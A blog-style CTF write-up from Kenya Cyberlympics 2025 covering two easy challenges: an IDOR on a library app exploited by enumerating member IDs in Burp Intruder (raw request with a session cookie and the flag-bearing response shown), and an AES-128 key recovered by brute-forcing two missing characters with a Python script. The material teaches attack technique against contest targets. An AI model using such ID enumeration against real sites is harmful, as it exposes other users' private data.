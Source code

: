 ```yaml
---
title: "Kenya Cyberlympics 2025"
date: 2025-06-01T01:09:33+03:00
draft: false
description: "Kenya Cyberlympics writeups covering web exploitation and cryptography challenges"
slug: "kenya-cyberlympics-2025"
tags: ["WEB", "Cryptography", "Easy", "KenyaCyberlympics"]
categories: ["CTF", "Web", "Cryptography"]
showAuthor: true
showDate: true
showReadingTime: true
showWordCount: true
featureimage: "https://www.cyberlympics.africa/wp-content/uploads/2022/08/Cyberlympics-Logo-For-Google.jpg"
---
```


# OwntheLib: Ado0re
## Description
- Points: 100
- Web URL: http://173.212.253.48:6061

This was an easy web challenge focused on IDOR vulnerability. 

## What is IDOR?
IDOR stands for Insecure Direct Object Reference. Its a type of access control vulnerability that occurs when an application exposes a reference to an internal object (like a file, database record, or user ID) without properly verifying whether the user is authorized to access it.

## Why its dangerous:
An attacker can:
- Access or modify other users' data
- Download files or view records they shouldn't see
- Potentially escalate privileges if sensitive data is exposed

For this challenge, my Exploitation Tool of choice was - Burpsuite. I created an account on the target website and signed in. I was welcomed by this dashboard:

![Dashboard](/images/KenyaCyberlympics/Dashboard.png)

I will immediately say, what caught my eye is the reference used to my personal account using that ID on the URL. So I Interecepted a request to my account dashboard using burpsuite:

```
GET /members/46 HTTP/1.1
Host: 173.212.253.48:6061
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://173.212.253.48:6061/login
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJpZCI6NDYsInJvbGUiOiJtZW1iZXIiLCJ1c2VyIjoia2F0In0.aDqq2A.bRHhbq6fXtpBvPKfyrQBW44vi9U
Connection: keep-alive
```

I then sent this to intruder, and used a sniper attack with a payload number list from 0-50 and caught request 9 with a different response from the rest of the reponses. This is how the application responded, and the flag was there:

```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.1 Python/3.9.22
Date: Sat, 31 May 2025 07:20:15 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2819
Vary: Cookie
Connection: close

<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <link rel="stylesheet" href="/static/css/style.css">
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/font-awesome/4.7.0/css/font-awesome.min.css">
        <title>Library Mgt App</title>
    </head>
<----------------------------------SNIP------------------------------------>
<div class="container">
    <h1>Member Details</h1>
    <div class="member-info">
        <p><strong>Member ID:</strong> </p>
        <p><strong>Name:</strong> </p>
        <p><strong>Member Role:</strong> </p>
        <p><strong>Debt:</strong> <span class="debt"> KES</span></p>
        
        <p><strong>Flag:</strong> <span class="debt">acdfctf{I_4DoRe_Id0Rs}</span></p>
        
    </div>
<----------------------------------SNIP------------------------------------>
```

Can you spot the flag: `Ado0re :acdfctf{I_4DoRe_Id0Rs}`

# OwntheLib: S3A
## Description
- Points: 100
- I might just leave this right here as a bonus flag but what could that two star {*} mean 🤨.
- IV: bb751cd8c0b8b08978cea57ed9a1933f
- Hex: 33a3267fac260a140588bf9a461c85e25a8e04c304ac82d2d26ad64090105e34
- Key: my_secure_aesk**

## Breaking AES with Partial Key Brute Force
## Challenge Summary

We were given:
- An Initialization Vector (IV)
- A ciphertext (in hex)
- An AES key with two unknown characters at the end

The goal was to recover the full AES key and decrypt the ciphertext to get the flag.

## What is AES?
AES (Advanced Encryption Standard) is a widely used symmetric encryption algorithm that requires:
- A secret key (128, 192, or 256 bits)
- An IV (for modes like CBC) to ensure unique ciphertexts even with the same key and plaintext.

Given Data:
- IV = bb751cd8c0b8b08978cea57ed9a1933f
- Ciphertext = 33a3267fac260a140588bf9a461c85e25a8e04c304ac82d2d26ad64090105e34
- Partial Key =	my_secure_aesk** (two last characters unknown)

## Attack Approach
Since the last two characters of the AES key were unknown, we performed a brute-force search over all plausible combinations for these two positions.

## Why brute force?
The key is 16 characters long (AES-128).
Only two characters were missing â†' manageable number of guesses (~95² = 9025 if using common printable characters).
For each key guess, decrypt the ciphertext and check if the plaintext looks valid.

## Tools and Libraries
- Python 3
- PyCryptodome library for AES decryption

Here is an AI-generated script to ease our task (PS: I'm not a very good programmer/script writer for that matter. But hey, thats what we have AI for, right?)

```
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import unpad
from itertools import product
import string

# Provided IV and ciphertext in hex
iv = bytes.fromhex("bb751cd8c0b8b08978cea57ed9a1933f")
ciphertext = bytes.fromhex("33a3267fac260a140588bf9a461c85e25a8e04c304ac82d2d26ad64090105e34")

key_prefix = "my_secure_aesk"
charset = string.ascii_letters + string.digits + "_{}!@#$%^&*()-=+"

for c1, c2 in product(charset, repeat=2):
    key = (key_prefix + c1 + c2).encode()
    try:
        cipher = AES.new(key, AES.MODE_CBC, iv)
        decrypted = cipher.decrypt(ciphertext)
        plaintext = unpad(decrypted, AES.block_size).decode()

        if "flag" in plaintext or "{" in plaintext:
            print(f"[+] Key found: {key.decode()}")
            print(f"[+] Flag: {plaintext}")
            break
    except Exception:
        continue
```
I then ran this script as shown below, can you spot the flag: 

```
python3 crypt.py

[+] Key found: my_secure_aeskey
[+] Plaintext: acdfCTF{34sy_43S_3ncrypt10n}
```

---

